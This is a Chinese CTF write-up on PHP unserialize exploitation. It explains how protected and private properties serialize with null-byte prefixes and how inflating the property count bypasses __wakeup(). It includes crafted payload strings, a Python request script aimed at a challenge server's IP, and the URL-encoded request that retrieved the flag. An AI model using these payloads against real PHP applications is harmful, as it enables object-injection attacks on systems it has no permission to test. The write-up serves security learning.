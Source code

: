 声明的字段为保护字段，在所声明的类和该类的子类中可见，保护字段的字段名在序列化时，字段名前面会加上<span data-type="text" style="color: var(--b3-font-color9);">\0*\0的前缀</span>。这里的 <span data-type="text" style="color: var(--b3-font-color9);">\0 表示 ASCII 码值为 0 的转义字符</span>(不可见字符)，而不是 \\0 组合。

```php
public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
payload：O:4:"Name":2:{s:11:"\0*\0username";s:5:"admin";s:11:"\0*\0password";i:100;}
```

### **private的序列化**

声明的字段为私有字段，只在所声明的<span data-type="text" style="color: var(--b3-font-color9);">类中可见</span>，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，<span data-type="text" style="color: var(--b3-font-color9);">类名</span>和字<span data-type="text" style="color: var(--b3-font-color9);">段名</span>前面都会<span data-type="text" style="color: var(--b3-font-color9);">加上\0的前缀</span>。且 \\0 字符也是计算长度的。

```php
 public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
payload：O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

### \_\_wakeup()方法绕过

当反序列化字符串，表示<span data-type="text" style="color: var(--b3-font-color9);">属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行</span>。

```bash
序列化后payload： O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}

绕过wakeup： O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

<span data-type="text" style="color: var(--b3-font-color9);">\0 表示 ASCII 码值为 0 的转义字符</span>所以使用浏览器发送，使用python请求如下：

```php
import  requests
url ="http://47.113.187.190:90/ctf.php/"
html = requests.get(url+'?select=O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}')
print(html.text)

```

​![image](assets/image-20240917175832-urd0rvs.png "拿到flag")​

```bash
http://47.113.187.190:90/ctf.php?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;i:100;}
```

​![image](assets/image-20240917231807-z10l1s2.png)​

‍
